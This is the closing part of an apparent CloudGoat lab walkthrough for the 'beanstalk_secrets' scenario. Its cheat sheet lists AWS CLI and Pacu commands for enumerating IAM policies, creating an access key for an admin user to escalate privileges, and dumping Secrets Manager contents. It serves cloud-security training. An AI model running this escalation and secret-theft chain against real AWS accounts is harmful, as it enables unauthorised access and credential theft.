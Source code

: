 *Don't forget to destroy your lab to shut down your resources in AWS!*

```bash
cloudgoat destroy beanstalk_secrets
```

# Cheat Sheet

To close off, here's a quick summary of the commands we needed to run to complete this module. If you're ever coming back to this and just need that one command, this is the section to check.

```bash
#Start Up
cloudgoat create beanstalk_secrets
aws configure --profile bean_low

#Check Elastic Beanstalk
aws elasticbeanstalk describe-environments --profile bean_low  
aws elasticbeanstalk describe-configuration-settings --profile bean_low --application-name cgidwk1c1402at-app --environment-name cgidwk1c1402at-env

#Enumerate 2nd user
aws configure --profile elastic_2   
aws iam list-attached-user-policies --profile elastic_2 --user-name cgidwk1c1402at_secondary_user
aws iam get-policy --policy-arn arn:aws:iam::381491899745:policy/cgidwk1c1402at_secondary_policy --profile elastic_2
aws iam get-policy-version --policy-arn arn:aws:iam::381491899745:policy/cgidwk1c1402at_secondary_policy --version-id v1 --profile elastic_2

#Enumerate with pacu
pacu
import_keys elastic2
run iam__enum_permissions
run iam__enum_users_roles_policies_groups
data iam Users
aws iam get-policy-version --policy-arn arn:aws:iam::381491899745:policy/cgidwk1c1402at_admin_user_policy --version-id v1 --profile elastic_2   

#Escalate 
aws iam create-access-key --user-name cgidwk1c1402at_admin_user --profile elastic_2   
aws configure --profile bean_admin  
aws sts get-caller-identity --profile bean_admin

#Secret Manager
pacu
import_keys bean_admin
run secrets__enum --region us-east-1
cat ~/.local/share/pacu/beanstalk/downloads/secrets/secrets_manager/secrets.txt
```

```

```
